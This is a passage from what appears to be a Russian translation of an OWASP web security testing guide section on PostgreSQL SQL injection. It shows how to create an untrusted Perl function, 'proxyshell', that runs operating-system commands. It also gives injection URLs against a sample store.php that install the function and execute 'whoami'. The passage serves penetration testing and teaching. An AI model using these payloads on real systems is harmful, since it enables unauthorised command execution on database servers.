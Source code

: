 - Проверьте, включен ли PL / perl-untrusted: `SELECT count(*) FROM pg_language WHERE lanname='plperlu'`
- Если нет, если предположить, что sysadm уже установил пакет plperl, попробуйте: `CREATE LANGUAGE plperlu`
- Если что-то из вышеперечисленного удалось, создайте функцию оболочки прокси: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu`
- Веселись с: `SELECT proxyshell(os command);`

###### Пример

- Создать функцию оболочки прокси: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`
- Запустите команду ОС: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

## References

- [Testing for SQL Injection](05-Testing_for_SQL_Injection.md)
- [SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PostgreSQL Official Documentation](https://www.postgresql.org/docs/)
- [Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection tool](https://sqlmap.org/)
